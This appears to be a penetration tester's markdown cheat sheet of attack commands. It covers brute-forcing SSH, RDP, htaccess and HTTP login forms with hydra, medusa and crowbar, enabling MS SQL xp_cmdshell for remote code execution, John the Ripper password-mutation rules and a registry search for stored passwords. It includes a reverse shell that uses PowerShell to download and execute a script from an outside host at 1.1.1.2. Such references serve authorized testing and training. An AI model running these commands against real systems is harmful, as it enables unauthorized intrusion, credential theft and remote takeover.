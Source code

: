 # Command reference  



## Network Brute Force Commands

### htacess
`medusa -h <ip> -u user -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/blocked_dir`

### RDP
`crowbar -b rdp -s <ip> -u user -C /usr/share/wordlists/rockyou.txt -n 1`

### SSH
`hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://<ip> -f -v`

### HTTP Post
`hydra <ip> http-form-post "/loginpage.php:user=admin&pass=^PASS^:<login failure message>" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f`


## MS SQL RCE and Rev shell

`sqsh -U sa -S <ip>:<port>`

### test xp cmdshell
`xp_cmdshell 'whoami'`  
`go`  

### if necessary, enable xp_cmdshell
`EXEC SP_CONFIGURE 'show advanced options',1`  
`reconfigure`  
`go`  


`EXEC SP_CONFIGURE 'xp_cmdshell',1`  
`reconfigure`  
`go`  

### Rev shell options 
#### Will be tough if AV is running, try surveying system from here to find a better access method

`xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring('http://1.1.1.2/rev.ps1')"`  
`go`  

can also try certutil or powershell wget (if newish PSVersion)



## John Wordlist Mutation

### Will use Wordlist mode rules from /etc/john/john.conf
`john --rules --wordlist=wordlist.txt hashes.txt`  
`john --rules --stdout --wordlist=wordlist.txt > mutated_wordlist.txt`  


## John Wordlist Rules

`[List.Rules:Wordlist]`  
`$[0-9]`  
`$[0-9]$[0-9]`  
`cAz"[0-9]"`  
`cAz"[0-9][0-9]"`  
`cAz"[£!$]"`  
`cAz"[0-9][£!$]"`  

#### or add to a custom rules list like [List.Rules:MyRule]
`john --rules=MyRule --wordlist=wordlist.txt hashes.txt`

 a good one to use is --rules=Jumbo


## Nix Misc
### Install gobuster
sudo apt install golang -y && go get github.com/OJ/gobuster && sudo cp ~/go/bin/gobuster /usr/local/bin  

## Windows Misc

### Search through registry for "pass" in value name
`reg query HKLM /f pass /t REG_SZ /s`

